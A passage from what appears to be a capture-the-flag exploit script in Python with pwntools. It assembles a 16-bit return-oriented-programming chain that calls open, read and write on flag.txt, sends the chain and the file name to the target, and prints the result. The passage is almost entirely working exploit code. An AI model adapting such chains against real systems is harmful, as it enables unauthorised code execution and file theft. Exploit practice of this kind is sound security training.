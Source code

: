 ```python
    p16(0x0), #dx value (not required. will be reset later)
    pop_bp_ret, #pop bp, ret
    p16(bp_address+0x36), # new pop bp value
    set_dx_cx_bx, #directly exploit syscall parameters set to set up parameters and bypass ax 
    triple_pop, #triple pop to go to the next call
    p16(bp_address+0x200), #bx - opening flag.txt
    p16(0x0), #cx - set to zero
    p16(0x0), #dx - set to zero

    # # # READ FROM FLAG.TXT
    pop_bp_ret, #pop bp, ret
    p16(bp_address+0x4a), # bp value calculated considering the distances between elements (updated +0x20)
    set_ax_dx, #mov 0x6(bp) ax, mov 0x8(bp), mov bp sp, pop bp, ret
    p16(0x0), # dummy
    ret, #ret to manage alignment
    triple_pop, #triple pop to move sp and avoid  
    p16(0x3), #dummy value for space reason
    p16(0x3), #ax value (SETS SYSCALL NUMBER - READ) 
    p16(0x0), #dx value (not required. will be reset later)
    pop_bp_ret, #pop bp, ret
    p16(bp_address+0x56), # new pop bp value
    set_dx_cx_bx, #directly exploit syscall parameters set to set up parameters and bypass ax 
    triple_pop, #triple pop to go to the next call
    p16(0x5), #bx - opening flag.txt
    p16(bp_address+0x300), #cx - sets destination where to read flag
    p16(0x40), #dx - amount of bytes to write

    # # # WRITE FROM FLAG.TXT

    pop_bp_ret, #pop bp, ret
    p16(bp_address+0x6a), # bp value calculated considering the distances between elements (updated +0x20)
    set_ax_dx, #mov 0x6(bp) ax, mov 0x8(bp), mov bp sp, pop bp, ret
    p16(0x0), # dummy
    ret, #ret to manage alignment
    triple_pop, #triple pop to move sp and avoid  
    p16(0x3), #dummy value for space reason
    p16(0x4), #ax value (SETS SYSCALL NUMBER - WRITE) 
    p16(0x0), #dx value (not required. will be reset later)
    pop_bp_ret, #pop bp, ret
    p16(bp_address+0x76), # new pop bp value
    set_dx_cx_bx, #directly exploit syscall parameters set to set up parameters and bypass ax 
    triple_pop, #triple pop to go to the next call
    p16(0x1), #bx - write to stdout
    p16(bp_address+0x300), #cx - sets destination where to write flag
    p16(0x34), #dx - amount of bytes to write
    exit #exit to avoid segfaults :-)
)   

io.recvrepeat(timeout=0.2)
io.send(rop_chain)
#io.send(rop_chain)
io.recvrepeat(timeout=0.2)
io.send("./flag.txt\x00")

print(io.recvrepeat(timeout=0.2))
io.interactive()
```

---
